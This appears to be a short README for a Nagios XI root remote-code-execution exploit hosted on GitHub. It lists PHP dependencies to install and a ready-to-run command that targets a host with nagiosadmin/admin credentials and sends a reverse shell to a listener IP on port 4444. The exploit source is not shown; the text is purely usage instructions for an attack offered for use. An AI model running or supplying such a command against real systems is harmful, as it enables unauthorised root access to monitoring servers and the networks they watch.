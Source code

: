 https://github.com/anindya14/nagiosxi-root-rce-exploit

## Things to install before the exploit could run successfully - 
- sudo apt-get install php-curl
- sudo apt-get install php-xml
- sudo service apache2 restart
- 
## Command - php exploit.php --host=192.168.248.136 --ssl=false --user=nagiosadmin --pass=admin --reverseip=192.168.45.170 --reverseport=4444
